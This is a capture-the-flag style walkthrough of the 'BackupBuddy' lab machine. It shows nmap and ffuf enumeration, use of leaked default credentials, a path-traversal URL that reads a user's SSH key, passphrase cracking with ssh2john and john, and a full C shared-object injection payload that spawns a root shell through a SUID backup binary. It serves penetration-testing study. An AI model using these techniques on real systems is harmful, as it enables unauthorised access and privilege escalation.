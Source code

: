 # **BackupBuddy**

***
Difficulty : **Intermediate**

![image](https://github.com/user-attachments/assets/9102a8ed-bc0a-405f-a054-3fa508205910)

***

Running our nmap scan we have:


```
# Nmap 7.94SVN scan initiated Wed Jul 10 12:25:16 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 192.168.224.43
Increasing send delay for 192.168.224.43 from 0 to 5 due to 16 out of 39 dropped probes since last increase.
Increasing send delay for 192.168.224.43 from 5 to 10 due to 11 out of 11 dropped probes since last increase.
Nmap scan report for 192.168.224.43
Host is up (0.19s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
|_  256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: PHP File Manager
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 41A82F56B3C9FF0CFB37E755CEFB8448
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 10 12:27:44 2024 -- 1 IP address (1 host up) scanned in 147.68 seconds
```



Navigating to port 80/HTTP we have the below logon form, however trying out default password including vulnerability validation like XSS and SQLI turned out negative




![](https://i.imgur.com/XO4CDXs.png)



The page although has a link that says **"PHP File Manager** and we are been lead to this [GitHub repository](https://github.com/alexantr/filemanager), There is nothing interesting than the name of this CMS in the repo, so i decided to search for public exploit and found an **authentication bypass** [PoC](https://packetstormsecurity.com/files/135384/PHP-File-Manager-0.9.8-Authentication-Bypass-Code-Execution.html)


![](https://i.imgur.com/37tNDp8.png)



Just like the screenshot above, it doesn't work, so let not waste time, we can go ahead and fuzz for hidden endpoint using the "**_Fuzz Faster U Fool_**" tool


```
ffuf -ic -u "http://192.168.224.43/FUZZ" -w /usr/share/wordlists/seclist/Discovery/Web-Content/directory-list-2.3-small.txt -fc 404,403,401 -fw 63 -e .txt,.php,.bak,.sql,.pdf,.png,.jpg,.jpeg,.html
```



![](https://i.imgur.com/3bflRWj.png)



We found a `/files` directory which has few images including a `/backup` directory that also has an image



![](https://i.imgur.com/JfYlW5A.png)


Decided to download all images with wget and run a brief analysis on them



![](https://i.imgur.com/1AH2in8.png)



However there is nothing in this images as they seem really normal to me


![](https://i.imgur.com/WHA10kp.png)



Checking the `/readme` endpoint we have leaked credentials which is the default username and password for the CMS


![](https://i.imgur.com/yYvD6uC.png)




Decided to try it out on the logon endpoint and whoa it worked xD, we can also see that we have a backup directory together with the owners name known as `brian`


![](https://i.imgur.com/d5eoNYh.png)




Well i thought it was time to login via SSH, i mean it is worth trying 😎, but hell nah, wrong authentication 



![](https://i.imgur.com/XOSSwdq.png)


Inspecting the URL of the website, it looks like the page is vulnerable to LFI cos it is directly calling the `/backups` directory



![](https://i.imgur.com/93nGGN0.png)



Well guess what, LFI!!!!!!!!!!!!!!!!


![](https://i.imgur.com/8MtN87t.png)



Quickly navigated to user `brian` home folder and we have the `id_rsa` file for this user

Link : [http://192.168.224.43/index.php?p=..%2F..%2F..%2F..%2F..%2F..%2F..%2Fhome%2Fbrian%2F.ssh](http://192.168.224.43/index.php?p=..%2F..%2F..%2F..%2F..%2F..%2F..%2Fhome%2Fbrian%2F.ssh)



![](https://i.imgur.com/Qt71G7p.png)




Well copied the `id_rsa` for the user and tried login in, however the `id_rsa` file is encrypted and we need to decrypt it, soo let go ahead and do that using `ssh2john` 


```bash
chmod 600 id_rsa
ssh brian@192.168.224.43 -i id_rsa
```


![](https://i.imgur.com/Q1uzH4l.png)



```bash
ssh2john id_rsa > hash.txt
```



![](https://i.imgur.com/lSRgvBz.png)



```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```



![](https://i.imgur.com/Iui3kzd.png)


Now we can login as user `brian` via SSH by specifying the cracked passphrase


![](https://i.imgur.com/8NgLNx8.png)



Checking for binaries with the SUID bit set we found a suspicious `backup` binary


```bash
find / -perm -4000 2>/dev/null
```


![](https://i.imgur.com/JuHQtWD.png)



Running this binary looks like it start a backup process but hell nah, it doesn't work that way so i decided to use the `strings` command on the file in which as shown below we can see that a `libm.so` file is been called under user `brian` home folder, we need to do a **Shared Object Injection** attack due to the fact that a `.so` file is been called



![](https://i.imgur.com/6SSgFIP.png)


Checking for the `.config` directory i did not find any directory like that


![](https://i.imgur.com/Sih5l06.png)



So we can go ahead and  create the `.confg/` directory ourselves and then compile this malicious `C` code to `.so` to give us a root shell which could be gotten from [here](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/ld.so.conf-example#exploit)



![](https://i.imgur.com/B6eZ8Q0.png)


Compiling the exploit and running it doesn't seem to work, we are still getting the same response.


```
gcc -shared -o .config/libm.so libm.c
```



![](https://i.imgur.com/ShtfE1O.png)



However after several enumeration with a CLI utility called `strace`, i was able to figure it out, it was just all about modifying the `C` code and this would have saved me several hours, at last the below code helped me to get what i want



```c
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

static void inject() __attribute__((constructor));

void inject() {
        setuid(0);
        setgid(0);
        system("/bin/bash");
}
```



![](https://i.imgur.com/NQBNZri.png)


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>






